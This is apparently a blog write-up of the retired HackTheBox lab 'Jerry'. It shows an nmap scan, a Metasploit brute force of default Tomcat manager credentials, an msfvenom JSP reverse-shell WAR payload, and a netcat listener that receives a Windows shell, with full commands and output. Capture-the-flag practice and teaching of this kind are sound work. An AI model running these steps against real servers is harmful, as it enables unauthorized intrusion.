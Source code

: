 ```yaml
---
title: HTB Writeup - JERRY
published: true
---
```


This is the first of a series of writeups detailing my progress through the machines on [HackTheBox](https://www.hackthebox.eu/). The site is available to anyone that can solve the [puzzle](https://www.hackthebox.eu/invite) for the invite code, and has a great variety of boxes for people of any skill level to practice pentesting - as well as other puzzles and challenges.

As per the rules, these will only be for the retired machines on HTB. There are plenty of writeups just like this out on the internet, but I decided to create my own to practice documenting my approach.

JERRY was one of the first boxes I completed, and according to user reporting is near enough the most straightforward on the network, so this should be a short post! Anyway - with all that out of the way, we can get going.

### [](#header-3)Enumeration

We'll start out with a simple `nmap` scan to check for open ports, and services running on them.

<pre>
<kw>root@kali:~</kw># nmap -sV 10.10.10.95
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.95
Host is up (0.021s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
</pre>

Since it looks like this box is running an Apache Tomcat server, let's fire up metasploit with `msfconsole` and search for some applicable scanner modules that can get us some more info.

<pre>
<kw>msf5 ></kw> search path:auxiliary/scanner tomcat

Matching Modules
================

 Name                                     Description
 ----                                     -----------
 auxiliary/scanner/http/tomcat_enum       Apache Tomcat User Enumeration
 auxiliary/scanner/http/tomcat_mgr_login  Tomcat Application Manager Login Utility
</pre>

### [](#header-3)Gaining a foothold

A quick google will show us that by default, Tomcat's Manager Application is found at /manager/html - and if we put that in the search bar...

![Tomcat Application Manager Login](/assets/jerry/tomcat-login.png){:.center-image }

`tomcat_mgr_login` looks promising, then. We'll tell metasploit to use that module, and set the necessary options...

<pre>
<kw>msf5 ></kw> use auxiliary/scanner/http/tomcat_mgr_login
<kw>msf5 auxiliary(scanner/http/tomcat_mgr_login) ></kw> set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
<kw>msf5 auxiliary(scanner/http/tomcat_mgr_login) ></kw> set RPORT 8080
RPORT => 8080
</pre>

And then execute.

<pre>
<kw>msf5 auxiliary(scanner/http/tomcat_mgr_login) ></kw> exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
...
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
</pre>

We got a login! Now we can take a look at the manager application.

![Tomcat Application Manager](/assets/jerry/tomcat-manager-app.png){:.center-image }

On first impressions, the most immediately interesting thing on the page is this:

![Tomcat Deplot WAR File](/assets/jerry/tomcat-deploy-war.png){:.center-image }

### [](#header-3)Further exploitation

It would seem that with our new manager access, we can deploy any .WAR file we want on the server! Let's get `msfvenom` to create an appropriate file.

WAR files can contain .jsp files, so some form of jsp payload should do the trick - we'll use `java/jsp_shell_reverse_tcp`, but set the output format to be 'war':

<pre>
<kw>root@kali:~/Desktop</kw># msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=8080 -f war > shell.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
</pre>

The file can be uploaded now, but we still have to set up a listener on our end before the payload will have any effect. We do this with netcat, using `-l` to listen and `-p` to specify the port we used in the payload...

<pre>
<kw>root@kali:~/Desktop</kw># nc -l -p 8080
</pre>

Finally, we run /shell in the application manager, and it should connect to our listener.

<pre>
<kw>root@kali:~/Desktop</kw># nc -l -p 8080
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

<kw>C:\apache-tomcat-7.0.88></kw>
</pre>

### [](#header-3)Finishing up

After a brief poke around, we can see we have access to the Users/Administrator directory.

<pre>
<kw>C:\Users\Administrator\Desktop\flags></kw> dir

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,597,131,776 bytes free

<kw>C:\Users\Administrator\Desktop\flags></kw> more "2 for the price of 1.txt"
</pre>

And we're done :)

Thanks for reading!

- <kw>j4ckdaw</kw>
